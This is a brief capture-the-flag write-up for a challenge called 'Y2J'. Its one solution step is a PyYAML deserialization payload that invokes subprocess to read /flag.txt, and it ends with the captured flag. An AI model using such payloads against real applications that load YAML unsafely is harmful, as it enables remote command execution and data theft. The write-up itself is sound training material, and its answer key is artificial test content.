 # Y2J
*Everyone was so worried about Y2K, but apparently it was a typo all along!!*

*The real world-ending fears were from Y2J!*

## Solution
1. Paste `!!python/object/apply:subprocess.getoutput [["$(cat /flag.txt)"]]` and get the flag


## Flag
**Flag:** `flag{b20870a1955ac22377045e3b2dcb832a}`
